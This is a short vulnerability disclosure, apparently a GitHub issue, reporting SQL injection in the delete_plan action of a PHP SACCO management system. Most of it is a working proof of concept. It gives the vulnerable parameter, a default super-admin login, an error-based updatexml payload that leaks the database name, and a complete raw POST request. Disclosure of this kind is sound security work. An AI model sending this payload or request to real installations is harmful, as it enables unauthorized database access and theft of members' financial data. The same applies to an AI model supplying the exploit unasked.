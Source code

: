 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author: H1dd3n

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/ajax.php?action=delete_plan

Vulnerability location: /sacco_shield/ajax.php?action=delete_plan, id

dbname = sacco,length=5

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /sacco_shield/ajax.php?action=delete_plan HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191200024-1e20458a-814f-47be-ba40-850cfa310126.png)
